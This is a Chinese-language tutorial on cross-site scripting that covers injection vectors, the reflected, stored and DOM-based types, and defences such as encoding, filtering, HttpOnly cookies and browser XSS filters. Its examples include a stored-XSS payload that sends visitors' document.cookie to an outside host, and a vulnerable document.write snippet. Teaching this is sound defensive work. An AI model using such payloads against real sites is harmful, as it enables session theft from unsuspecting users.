 ```yaml
---
title: XSS
date: 2018-11-23 22:32:05
tags:
---
```


#### 什么是XSS

XSS又称CSS，全称Cross SiteScript，跨站脚本攻击，是Web程序中常见的漏洞。

XSS是指恶意攻击者利用网站没有对用户提交数据进行转义处理或者过滤不足的缺点，进而添加一些代码，嵌入到web页面中去。使别的用户访问都会执行相应的嵌入代码。从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。如，盗取用户Cookie、破坏页面结构、重定向到其它网站等。

#### 危害

![](./img/xss危害.png)

这么多~~

#### 有哪些注入的方法和途径：

- 在 HTML 中内嵌的文本中，恶意内容以 script 标签形成注入。
- 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
- 在标签的 href、src 等属性中，包含 javascript: 等可执行代码。
- 在 onload、onerror、onclick 等事件中，注入不受控制代码。
- 在 style 属性和标签中，包含类似 background-image:url("javascript:..."); 的代码（新版本浏览器已经可以防范）。
- 在 style 属性和标签中，包含类似 expression(...) 的 CSS 表达式代码（新版本浏览器已经可以防范）。

>总之，如果开发者没有将用户输入的文本进行合适的过滤，就贸然插入到 HTML 中，这很容易造成注入漏洞。攻击者可以利用漏洞，构造出恶意的代码指令，进而利用恶意代码危害数据安全。

#### 分类

##### 1、反射型xss攻击

又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接(即每次攻击需要用户的点击)。

反射型ＸＳＳ也被称为非持久性ＣＳＳ。当用户访问一个带有XSS代码的URL请求时，服务器端接收数据后处理，然后把带有XSS代码的数据发送到浏览器，浏览器解析这段带有XSS代码的数据后，最终造成ＸＳＳ漏洞。这个过程就像一次反射，故称为反射型ＸＳＳ。

```
正常发送消息：

http://www.test.com/message.php?send=Hello,World！

接收者将会接收信息并显示Hello,Word

非正常发送消息：

http://www.test.com/message.php?send=<script>aldert(‘foolish!’)</script>！

接收者接收消息显示的时候将会弹出警告窗口
```

##### 2、存储型xss攻击

Stored XSS是存储式XSS漏洞，由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。


a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！这个过程中，受害者是多个人。

Stored XSS漏洞危害性更大，危害面更广。

##### 3、DOMBasedXSS（基于dom的跨站点脚本攻击）

基于DOM的XSS有时也称为type0XSS。当用户能够通过交互修改浏览器页面中的DOM(DocumentObjectModel)并显示在浏览器上时，就有可能产生这种漏洞，从效果上来说它也是反射型XSS。

通过修改页面的DOM节点形成的XSS，称之为DOMBasedXSS。

前提是易受攻击的网站有一个HTML页面采用不安全的方式从document.location 或document.URL 或 document.referrer获取数据（或者任何其他攻击者可以修改的对象）。
　　
var pos= document.URL.indexOf("name=")+5;

var len = document.URL.substring(pos,document.URL.length);  

document.write(len);  

>
这个页面，name是截取URL中get过来的name参数  
正常操作：  
http://www.vulnerable.site/welcome.html?name=Joe  
非正常操作：  
http://www.vulnerable.site/welcome.html?name=<script>a1lert(document.cookie)</script>


### 防御

#### 类似这些操作要小心

innerHTML、.outerHTML、document.write()

#### HTML Encode

用户将数据提交上来的时候进行HTML编码，将相应的符号转换为实体名称再进行下一步的处理。

```
比如用户输入：<script>window.location.href=”http://www.baidu.com”;</script>，保存后最终存储的会是：&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;在展现时浏览器会对这些字符转换成文本内容显示，而不是一段可执行的代码。
```

#### 过滤或移除特殊的Html标签

例如: &lt;script&gt;, &lt;iframe&lt; , &lt; for &lt;, &gt; for &gt;, &quot for

##### 过滤JavaScript 事件的标签

例如 "onclick=", "onfocus" 等等。

#### 将重要的cookie标记为http only

这样的话Javascript 中的document.cookie语句就不能获取到cookie了.

#### 表单数据规定值的类型

例如：年龄应为只能为int、name只能为字母数字组合

>这里有个国人写的xss过滤的  https://jsxss.com/zh/index.html

#### Secure标记

标记为 Secure 的Cookie只应通过被HTTPS协议加密过的请求发送给服务端。

#### X-XSS-Protection

让浏览器去做xss筛选，起到保护作用。

只要在HTTP响应报文的头部增加一个X-XSS-Protection 字段，明确地告诉浏览器XSS filter/auditor该如何工作。 

X-XSS-Protection 的字段有三个可选配置值：

- 0： 表示关闭浏览器的XSS防护机制
- 1：删除检测到的恶意代码，如果响应报文中没有看到X-XSS-Protection 字段，那么浏览器就认为X-XSS-Protection配置为1，这是浏览器的默认设置
- 1; mode=block：如果检测到恶意代码，在不渲染恶意代码


### 浏览器XSS过滤策略

从IE8 开始，IE 浏览器内置了一个针对XSS攻击的防护机制，这个浏览器内置的防护机制就是所谓的XSS filter，这个防护机制主要用于减轻反射型XSS 攻击带来的危害。 基于Webkit 内核的浏览器（比如Chrome）随后也增加一个名为XSS auditor 的防护机制，作用和IE中的XSS filter类似。这两种XSS防护机制的目的都很简单，如果浏览器检测到了含有恶意代码的输入被呈现在HTML文档中，那么这段呈现的恶意代码要么被删除，要么被转义，恶意代码不会被正常的渲染出来，当然了，浏览器是否要拦截这段恶意代码取决于浏览器的XSS防护设置。

怎么设置策略。看上面“X-XSS-Protection”

***

IE引入的XSS filter。
有一堆的正则表达式。
每一行正则式代表一条规则。IE在判断时会扫描URL，对匹配上的正则表达式的url报警，提示发现xss攻击并将字符替换为“#“。

***

chrome XSSAuditor的工作原理
chrome的XSSAuditor也被整合到了渲染引擎WebKit中。

当网页加载时，XSSAuditor会在页面之前苹果用户的输入。它首先评估用户输入是否包含有恶意内容，如果有就拦截。XSSAuditor也会检查用户是否会“反射”到正在渲染的页面中。

***

***原理的区别：***  
与IE不同的是，chrome的XSSAuditor并没有使用正则的形式去判断。chrome的xss过滤是在词法解析阶段进行的。在解析网页时，html代码会被分解成不同的token（每个token即一个元素），XSSAuditor会逐一审查token，将token中存在的危险属性、字段和url比较，若url中也有同样的内容，则XSSAuditor会认为这是一个反射型xss攻击，随后会对该字段进行过滤处理。


例如在检查如下代码 

```
\<iframe src="x" onerror="ale2rt(6)"\>\</iframe\>
```

会依次做如下判断:  

- 1.检查开始标签iframe，如果包含属性src、onerror,则认为可能危险，继续检查
- 2.如果src 不是以javascript:开头，则安全，放行。
- 3.onerror中包含脚本，检查这段代码是否同样出现在url中。
- 4.如果出现在url中，认为这个地方有问题，这段代码会被过滤成&lt;iframe src="x" onerror="void(0)"&gt;&lt;/iframe&gt; 如果没有出现在url中，认为这个地方没有问题，继续。
- 5.检查终止标签iframe，没有问题，全流程结束


>火狐浏览器为什么没有xss filter机制
>XSS攻击也应正了安全圈内非常有名的一句话：所有的输入都是有害的。